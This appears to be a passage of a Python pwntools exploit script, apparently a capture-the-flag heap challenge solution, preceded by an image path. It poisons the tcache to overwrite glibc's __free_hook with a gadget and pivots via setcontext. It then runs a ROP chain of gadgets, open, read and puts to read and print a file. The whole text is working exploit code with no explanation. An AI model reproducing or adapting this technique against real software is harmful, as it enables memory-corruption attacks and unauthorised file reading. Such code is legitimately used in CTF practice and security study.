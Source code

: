 ```python

print('[+]libcbase: '+hex(libcbase))
setcontext=libc.sym['setcontext']+libcbase
print('[+]setcontext: '+hex(setcontext))
free_hook=libc.sym['__free_hook']+libcbase
print('[+]free_hook: '+hex(free_hook))
gadget=libcbase+0x150550 
#mov rdx, qword ptr [rdi + 8] ; mov qword ptr [rsp], rax ; call qword ptr [rdx + 0x20]



add(0,0x18)
delete(0)
edit(0,p64(free_hook))
add(0,0x18)
add(0,0x18)
edit(0,p64(gadget))

pop_rdi=libcbase+0x26542
pop_rdi_rbp=libcbase+0x270f1
pop_rsi=libcbase+0x26f9e
pop_rdx=libcbase+0x12bda6 
pop_rax=libcbase+0x47cf8
syscall=libcbase+0x10cf7f
o=libcbase+libc.sym['open']
r=libcbase+libc.sym['read']
w=libcbase+libc.sym['puts']

pd=b'a'*8+p64(heap+0x1da0)+b'a'*8+p64(setcontext+53)
add(0,0x28)
edit(0,pd)

pd=p64(9)+b'a'*0x10+p64(12)+p64(13)+p64(14)+p64(15)+p64(heap+0x1140)+p64(2)+p64(0)+p64(0xaa)
add(0,0x58)
edit(0,pd)

pd=b'a'*8+p64(0xaa)+p64(heap+0x1e30+0x20)+p64(pop_rax)+p64(2)+p64(syscall)
pd+=p64(pop_rdi)+p64(3)+p64(pop_rsi)+p64(heap)+p64(pop_rdx)+p64(0x100)+p64(r)
pd+=p64(pop_rdi_rbp)+p64(heap)
add(0,0x78)
edit(0,pd)

pd=p64(w)
add(0,0x48)
edit(0,pd)

pd=b'a'*8+p64(heap+0x1da0)+b'a'*0x10+p64(setcontext+53)
add(0,0x68)
edit(0,pd)
delete(0)

ia()
```
